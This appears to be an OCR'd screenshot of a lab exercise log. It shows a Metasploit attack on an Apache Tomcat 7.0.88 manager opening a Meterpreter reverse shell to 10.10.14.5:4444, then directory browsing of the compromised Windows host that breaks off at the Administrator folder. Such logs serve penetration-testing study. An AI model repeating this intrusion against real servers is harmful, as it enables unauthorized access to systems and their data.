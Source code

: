 ```
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.14.5:4444 -> 10.10.10.95:49193 ) at 2022-12-08 17:10:17 +0000

meterpreter > dir
Listing: C:\apache-tomcat-7.0.88
================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100776/rwxrwxrw-  57896  fil   2018-05-07 11:16:00 +0000  LICENSE
100776/rwxrwxrw-  1275   fil   2018-05-07 11:16:00 +0000  NOTICE
100776/rwxrwxrw-  9600   fil   2018-05-07 11:16:00 +0000  RELEASE-NOTES
100776/rwxrwxrw-  17454  fil   2018-05-07 11:16:00 +0000  RUNNING.txt
040776/rwxrwxrw-  8192   dir   2018-06-19 01:06:55 +0000  bin
040776/rwxrwxrw-  4096   dir   2018-06-19 03:47:35 +0000  conf
040776/rwxrwxrw-  8192   dir   2018-06-19 01:06:55 +0000  lib
040776/rwxrwxrw-  16384  dir   2022-12-08 23:17:15 +0000  logs
040776/rwxrwxrw-  0      dir   2022-12-09 00:10:13 +0000  temp
040776/rwxrwxrw-  4096   dir   2022-12-09 00:10:14 +0000  webapps
040776/rwxrwxrw-  0      dir   2018-06-19 01:34:12 +0000  work

meterpreter > cd ..
meterpreter > dir
Listing: C:\
============

Mode              Size       Type  Last modified              Name
----              ----       ----  -------------              ----
040777/rwxrwxrwx  0          dir   2013-08-22 15:50:45 +0000  $Recycle.Bin
100777/rwxrwxrwx  1          fil   2013-06-18 12:18:29 +0000  BOOTNXT
040776/rwxrwxrw-  4096       dir   2018-06-18 20:31:25 +0000  Documents and Settings
040776/rwxrwxrw-  0          dir   2013-08-22 15:52:33 +0000  PerfLogs
040776/rwxrwxrw-  4096       dir   2018-06-19 15:42:35 +0000  Program Files
040776/rwxrwxrw-  4096       dir   2018-06-19 15:42:35 +0000  Program Files (x86)
040777/rwxrwxrwx  4096       dir   2022-01-21 18:53:08 +0000  ProgramData
040777/rwxrwxrwx  0          dir   2018-06-18 20:23:35 +0000  System Volume Information
040776/rwxrwxrw-  4096       dir   2018-06-18 20:31:25 +0000  Users
040776/rwxrwxrw-  24576      dir   2022-01-21 18:53:16 +0000  Windows
040776/rwxrwxrw-  4096       dir   2018-06-19 01:07:05 +0000  apache-tomcat-7.0.88
100555/r-xr-xr-x  427680     fil   2013-08-22 05:31:45 +0000  bootmgr
100001/--------x  738197504  fil   1970-01-01 00:00:00 +0000  pagefile.sys

meterpreter > cd Users
meterpreter > dir
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040776/rwxrwxrw-  8192  dir   2018-06-18 20:31:28 +0000  Administrator
040777/rwxrwxrwx  4096  dir   2022-01-21 18:53:08 +0000  All Users
040777/rwxrwxrwx  8192  dir   2013-08-22 16:08:06 +0000  Default
040777/rwxrwxrwx  8192  dir   2013-08-22 16:08:06 +0000  Default User
040776/rwxrwxrw-  4096  dir   2013-08-22 15:39:32 +0000  Public
100777/rwxrwxrwx  174   fil   2013-08-22 15:37:57 +0000  desktop.ini

meterpreter > cd Administrator
meterpreter > dir
Listing: C:\Users\Administrator
===============================

Mode              Size    Type  Last modified              Name
```
